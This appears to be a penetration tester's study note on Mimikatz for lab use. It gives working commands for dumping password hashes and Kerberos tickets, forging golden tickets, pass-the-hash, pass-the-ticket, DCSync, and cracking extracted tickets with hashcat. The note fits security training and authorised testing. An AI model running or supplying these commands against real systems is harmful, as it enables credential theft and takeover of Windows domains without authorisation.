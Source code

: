 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
Mimikatz is a windows tool for extracting plaintext passwords, hashes, PIN codes, and kerberos tickets from memory. It is also capable of performing Pass-the-Hash, Pass-the-Ticket, or build *Golden* tickets.
> [pypykatz](https://github.com/skelsec/pypykatz) is a python implementation of the tool that can be run on linux systems.
> [Linikatz](https://github.com/CiscoCXSecurity/linikatz) performs a similar role for linux too

## Installation
Pre-built binaries available in the git repo: https://github.com/gentilkiwi/mimikatz/releases
## Documentation
**Cheatsheet:** 
**Website:** https://github.com/gentilkiwi/mimikatz
## Usage
### Obtaining Hashes & Tickets
```batch
# Obtain NTLM hashes for users
C:\> mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit

# Obtain Kerberos Tickets (This potentially doesn't work for some W10 versions as it uses the wrong encryption)
C:\> mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit

C:\> dir *.kirbi

<SNIP>
-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-johnny@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
<SNIP>

```
> For the tickets:
> - If it ends with `$` (Result 2 above) then it corresponds to the computer account (allowing the system to interact with Active Directory)
> - User tickets have the user's name (Result 1 above) followed by an `@` then the service name and domain. It follows the format `[random_value]-username@service-domain.local.kirbi`
> - If a user ticket has the service `krbtgt` then it is the [[Operating Systems/Windows/Kerberos#Ticket Granting Ticket (TGT)|TGT]] of that account.

### Extracting from Credential Manager
```batch
sekurlsa::credman
```

### Exporting Kerberos Keys
Keys are not the same as tickets, they are encryption keys that Kerberos uses for creating TGTs.
```batch
C:\> mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

### Create a Golden Ticket
``` PowerShell
kerberos::golden /user:[user] /domain:[domain] /sid:[domain-sid] /krbtgt:[krbtgt-acc-nthash] /sids:[additional-sids] /ptt
```

### Extracting Kerberos TGS Tickets
```batch
C:\> mimikatz.exe privilege::debug
	base64 /out:true
	kerberos::list /export
```
> Without `base64 /out:true` it will extract to a `.kirbi` file, writing them to disk on the target machine (so will need to be exfiltrated)

As the base64 export is column wrapped, we need to prepare it for cracking:
```bash
# Remove any new lines and whitespace
echo "<base64 blob>" |  tr -d \\n
# Place the output into a file

# Convert to a .kirbi file
cat encoded_file | base64 -d > user.kirbi

# Conver it with john
python kirbi2john.py user.kirbi

# Modify the crack file for hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > user_tgs_hashcat

# Crack it
hashcat -m 13100 user_tgs_hashcat rockyou.txt
```

### Pass-the-Hash
Using the `sekurlsa::pth` module we can perform a pass-the-hash attack. It starts a process using the user's hash.
```batch
C:\> mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /NTLM:<hash> /domain:<AD_domain> /run:cmd.exe" exit
```
> We can specify any program in the `/run:` flag to launch any program but a shell is often most useful.

### Pass the Ticket
Using the `kerberos::ptt` module we can perform a pass-the-ticket attack using a `.kirbi` ticket file.
```batch
C:\> mimikatz.exe privilege::debug "kerberos::ptt <ticket_file> exit
```

### [[Abusing ACLs#DCSync|DCSync]]
> We may have to use `runas /netonly /user:[domain]\[user] powershell` as we need to be running in the context of the user with the DCSync permissions
```PowerShell
mimikatz.exe privilege::debug "lsadump::dcsync /domain:[domain] /user:[domain]\[user]"
```
